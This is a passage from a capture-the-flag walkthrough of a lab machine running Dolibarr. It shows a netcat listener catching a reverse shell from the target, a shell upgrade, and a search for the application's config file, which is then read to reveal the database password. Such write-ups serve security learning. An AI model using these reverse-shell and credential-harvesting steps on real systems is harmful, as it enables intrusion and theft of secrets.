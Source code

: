 Now we have shell access!
```bash
$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.48] from board.htb [10.10.11.11] 43424
bash: cannot set terminal process group (858): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ 
```
We will also run `script -qc /bin/bash /dev/null` to upgrade it to interactive shell, and `export PS1='\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '`.

# Looking for the flags

Looking online we see that `Dolibarr`'s config file is `conf/conf.php`:
```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ find / -name 'conf.php' 2>/dev/null
<ind / -name 'conf.php' 2>/dev/null                                                       
/var/www/html/crm.board.htb/htdocs/conf/conf.php
```
```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ cat /var/www/html/crm.board.htb/htdocs/conf/conf.php
<at /var/www/html/crm.board.htb/htdocs/conf/conf.php                                      
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
//$dolibarr_lib_NUSOAP_PATH='';
```